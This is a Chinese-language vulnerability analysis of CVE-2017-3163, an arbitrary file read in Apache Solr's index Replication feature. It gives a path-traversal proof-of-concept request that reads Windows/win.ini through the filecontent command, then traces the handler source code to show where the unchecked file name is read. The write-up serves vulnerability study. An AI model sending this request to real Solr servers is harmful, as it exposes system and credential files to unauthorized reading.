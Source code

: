 ## CVE-2017-3163
问题出现在索引复制功能（Replication），Apache Solr节点会从master/leader节点通过文件名拉取文件。但是并没有对文件名进行校验，就造成了任意文件读取。测试数据中自带的核心包含db、mail、rss、solr、tika

以db核心的Replication功能为例的POC如下
```
GET /solr/db/replication?command=filecontent&file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fwin.ini&wt=filestream&generation=1
```
直接启动Solr默认启动的是jetty服务器，jetty的特点是最终调用某个具体的Handler来处理请求。`jetty ServletHandler.doHandle() -> solr SolrDispatchFilter.doFilter`。然后Solr在处理请求时也会分发到对应的Hanlder。`ReplicationHandler`处理具体请求的核心代码如下
```
public void handleRequestBody(SolrQueryRequest req, SolrQueryResponse rsp) throws Exception {
    final SolrParams solrParams = req.getParams();
    String command = solrParams.get(COMMAND);
    if (command.equals(CMD_INDEX_VERSION)) {...}  // command值为indexversion
    else if (command.equals(CMD_GET_FILE)) { // command值为filecontent
        getFileStream(solrParams, rsp); // 会讲file文件流放在rsp中
    }
    else if (command.equalsIgnoreCase(CMD_FETCH_INDEX)) {  //command值为fetchindex
        String masterUrl = solrParams.get(MASTER_URL);
        final SolrParams paramsCopy = new ModifiableSolrParams(solrParams);
        Thread fetchThread = new Thread(() -> doFetch(paramsCopy, false), "explicit-fetchindex-cmd") ;
        fetchThread.setDaemon(false);
        fetchThread.start();
        rsp.add(STATUS, OK_STATUS);
    }
    ... // filelist、backup、restore、restorestatus、deletebackup、disablepoll、enablepoll、abortfetch、commits、details
}

private void getFileStream(SolrParams solrParams, SolrQueryResponse rsp) {
    ModifiableSolrParams rawParams = new ModifiableSolrParams(solrParams);
    rawParams.set(CommonParams.WT, FILE_STREAM);
    ...
    } else {
        rsp.add(FILE_STREAM, new DirectoryFileStream(solrParams));
    }
}

public DirectoryFileStream(SolrParams solrParams) {
    params = solrParams;
    fileName = params.get(FILE); // 从请求中获取file属性值，即文件名
    cfileName = params.get(CONF_FILE_SHORT);
    indexGen = params.getLong(GENERATION);
    ...
}
```
请求处理完成后，会写入响应内容。进而调用的就是`DirectoryFileStream.write()`方法，会将所处核心的数据绝对路径与fileName相拼接，然后读取文件内容，`fos.write(buf, 0, read);fos.flush();`将文件内容写入到响应body中。
